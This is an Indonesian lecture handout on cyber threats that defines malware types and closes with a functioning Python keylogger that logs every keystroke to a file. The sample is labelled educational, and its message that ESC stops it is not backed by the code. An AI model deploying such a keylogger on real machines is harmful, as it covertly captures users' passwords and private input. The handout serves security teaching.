 # Handout Kuliah: Ancaman dan Serangan Siber


## 1. Pengantar 

### Tujuan Pembelajaran
1. Memahami berbagai jenis ancaman siber yang umum terjadi
2. Menjelaskan cara kerja malware, phishing, ransomware, dan DDoS
3. Memahami contoh implementasi sederhana untuk memahami konsep serangan
4. Mampu menerapkan langkah mitigasi dasar

### Konsep Dasar
- Ancaman siber: Aktivitas berbahaya yang menargetkan sistem, data, atau jaringan
- Serangan siber: Dapat dilakukan secara otomatis (script, malware) atau manual (social engineering)

---

## 2. Malware

### a. Definisi
- *Malicious Software* - perangkat lunak berbahaya yang merusak atau mengambil alih sistem
- Jenis-jenis malware:
  - Virus - menyebar dengan menempel pada file
  - Worm - menyebar otomatis melalui jaringan
  - Trojan - menyamar sebagai aplikasi sah
  - Spyware/Keylogger - mencuri data pengguna

### b. Cara Kerja
- Masuk melalui file, email, USB, atau unduhan
- Mengeksekusi kode berbahaya di sistem target

### c. Contoh Kode (Python Keylogger Sederhana - EDUKASI)
```python
from pynput import keyboard
import logging

# Setup logging
logging.basicConfig(
    filename="keylog.txt", 
    level=logging.DEBUG, 
    format="%(asctime)s - %(message)s"
)

def on_press(key):
    try:
        logging.info(str(key))
    except Exception as e:
        logging.error(f"Error: {str(e)}")

# Deteksi dan blok jika dijalankan di lingkungan produksi
import os
if os.environ.get('PRODUCTION'):
    print("Akses ditolak - lingkungan produksi")
    exit()

# Hanya jalankan dalam lingkungan terkontrol
with keyboard.Listener(on_press=on_press) as listener:
    print("Keylogger edukasi berjalan (tekan ESC untuk berhenti)")
    listener.join()
```